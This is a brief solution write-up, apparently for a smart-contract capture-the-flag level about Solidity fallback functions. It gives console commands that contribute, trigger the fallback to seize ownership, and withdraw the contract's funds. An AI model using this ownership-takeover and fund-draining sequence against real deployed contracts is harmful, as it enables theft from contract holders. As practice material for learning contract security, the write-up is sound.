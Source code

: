 ## The Fallback Function

A fallback function is a solidity function that is called when no other function in the smart contract matches the function name called.
https://www.geeksforgeeks.org/solidity-fall-back-function/

## Solution

1. Contribute to the contract
```bash 
    contract.contribute({ value: toWei(".000001", "ether"), from: player }) 
```
2. Send a transaction to trigger fallback function
```bash
    sendTransaction({ to: contract.address, value: toWei(".000001", "ether"), from: player })
```
3. Withdraw from contract 
```bash
    contract.withdraw()
```

**Verify ownership, it should return your address.
```bash
    await contract.owner()
```
